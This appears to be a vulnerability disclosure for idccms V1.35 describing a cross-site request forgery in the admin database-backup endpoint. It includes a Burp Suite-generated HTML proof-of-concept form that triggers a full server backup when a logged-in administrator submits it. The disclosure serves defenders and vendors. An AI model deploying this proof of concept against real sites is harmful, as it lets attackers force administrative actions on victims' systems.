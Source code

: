 
target:http://idccms.com/
version: V1.35

idccms V1.35 was discovered to contain a Cross-Site Request Forgery (CSRF) via the component  http://127.0.0.1:80/admin/dbBakMySQL_deal.php?mudi=backup

POC:
```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://127.0.0.1:80/admin/dbBakMySQL_deal.php?mudi=backup" method="POST">
      <input type="hidden" name="backURL" value="http%3A%2F%2F127.0.0.1%2Fadmin%2FdbBakMySQL.php%3Fmudi%3Dbackup%26menuID%3D999902" />
			<input type="hidden" name="mode" value="all" />
			<input type="hidden" name="fileSize" value="5120" />
			<input type="hidden" name="backupSpace" value="server" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```
